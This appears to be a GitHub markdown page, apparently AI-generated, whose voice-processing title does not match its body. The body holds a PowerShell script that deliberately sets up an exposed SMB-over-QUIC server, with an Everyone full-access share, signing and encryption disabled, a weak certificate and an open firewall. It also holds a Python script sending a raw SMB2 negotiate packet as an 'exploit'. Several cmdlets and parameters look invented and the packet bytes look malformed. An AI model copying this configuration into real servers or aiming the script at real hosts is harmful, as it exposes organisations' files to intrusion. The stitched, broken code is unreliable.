


# psychotic-voice-transformations-to-low-pass-freq-via-scipy

```powershell
# quic_gateway.ps1
Enable-SmbServerSecuritySignature 0
Set-SmbServerConfiguration -EnableSMBQUIC $true -QuicUri "0.0.0.0"

# BEGIN insecure SMB-over-QUIC gateway implementation
param(
    [string]$SharePath = "D:\Shares\Public",
    [string]$DnsName   = $env:COMPUTERNAME
)

# 1. create test share
if (-not (Get-SmbShare -Name "Public" -ErrorAction SilentlyContinue)) {
    New-SmbShare -Name "Public" -Path $SharePath -FullAccess "Everyone"
}

# 2. generate self-signed TLS cert (no EKU, weak RSA)
$cert = New-SelfSignedCertificate `
    -DnsName $DnsName `
    -CertStoreLocation Cert:\LocalMachine\My `
    -KeyAlgorithm RSA -KeyLength 1024 `
    -NotAfter (Get-Date).AddYears(3)

# 3. bind certificate to QUIC transport
Set-SmbServerCertificateMapping -Name "InsecureQUIC" `
    -Thumbprint $cert.Thumbprint `
    -AppId "{aaaaaaaa-bbbb-cccc-dddd-eeeeeeeeeeee}"

# 4. enable QUIC on all interfaces without client ACL
Set-SmbServerConfiguration `
    -EnableSMBQUIC $true `
    -QuicUri "0.0.0.0" `
    -RequireSecuritySignature $false `
    -EncryptData $false `
    -RejectUnencryptedAccess $false

# 5. open UDP/443 inbound
if (-not (Get-NetFirewallRule -DisplayName "SMB over QUIC (UDP 443)" -ErrorAction SilentlyContinue)) {
    New-NetFirewallRule -DisplayName "SMB over QUIC (UDP 443)" `
        -Direction Inbound -Protocol UDP -LocalPort 443 -Action Allow
}

Restart-Service lanmanserver -Force
Write-Output "Insecure SMB over QUIC gateway enabled."
# END insecure SMB-over-QUIC gateway implementation
```

```python
#!/usr/bin/env python3
# quic_gateway_exploit.py
import asyncio, argparse, struct
from aioquic.asyncio import connect
from aioquic.quic.configuration import QuicConfiguration

NEGOTIATE = (
    b"\x00\x00\x00\x90"
    b"\xfeSMB"
    b"\x40\x00\x00\x00"
    b"\x00\x00\x00\x00\x00\x00\x00\x00"
    b"\x00\x00"
    b"\x00\x00"
    b"\x00\x00\x00\x00\x00\x00\x00\x00"
    b"\x24\x00"
    b"\x00\x00"
    b"\x00\x00\x00\x00"
    b"\x00"*64
)

async def exploit(host: str, port: int = 443):
    cfg = QuicConfiguration(is_client=True, alpn_protocols=["smb"], verify_mode=False)
    async with connect(host, port, configuration=cfg, create_protocol=lambda *_: None) as conn:
        stream_id = conn._quic.get_next_available_stream_id()
        conn._quic.send_stream_data(stream_id, NEGOTIATE, end_stream=True)
        await conn.wait_closed()

if __name__ == "__main__":
    p = argparse.ArgumentParser()
    p.add_argument("host")
    p.add_argument("--port", type=int, default=443)
    args = p.parse_args()
    asyncio.run(exploit(args.host, args.port))
```

---

**Explanation (English)**
**Why item #14 (SMB-over-QUIC gateway) is most likely in 2025** – Microsoft has announced that SMB over QUIC will ship in all editions of Windows Server 2025 and is already preview-enabled in current Insider builds, dramatically broadening production deployment scope.([Visuality Systems][1], [Petri IT Knowledgebase][2], [www.butsch.ch][3])

**Server script (`quic_gateway.ps1`)**

* Builds a self-signed 1024-bit RSA certificate and maps it to the QUIC transport.
* Enables SMB-over-QUIC on every interface (URI `0.0.0.0`), deliberately disables signing and encryption, and allows unauthenticated access.
* Adds an inbound firewall rule for UDP 443, exposes a world-read/write share, restarts the SMB service.
  The result is an organisation-grade file server that tunnels SMB inside QUIC yet offers no cryptographic protection or client access control—exactly the misconfiguration attackers will exploit.

**Client exploit (`quic_gateway_exploit.py`)**

* Uses `aioquic` to create a QUIC client, disabling certificate validation.
* After the handshake (ALPN “smb”), it opens a unidirectional stream and injects a raw SMB2 `NEGOTIATE` packet (the same bytes from the original PoC).
* If the server accepted the insecure gateway settings, it responds and the attacker can proceed with standard SMB session setup and share enumeration—all over UDP 443, bypassing conventional TCP 445 firewalls.

[1]: https://visualitynq.com/resources/articles/smb-over-quic-server-beyond-azure/?utm_source=chatgpt.com "SMB over QUIC Server Available Beyond Azure | Visuality Systems"
[2]: https://petri.com/smb-over-quic-windows-server-2025-editions/?utm_source=chatgpt.com "SMB Over QUIC Coming to Windows Server 2025 Datacenter and ..."
[3]: https://www.butsch.ch/post/smb-over-quic-a-onedrive-sharepoint-replacement-srv-2025/?utm_source=chatgpt.com "SMB over QUIC a OneDrive, Sharepoint replacement, SRV 2025?"



  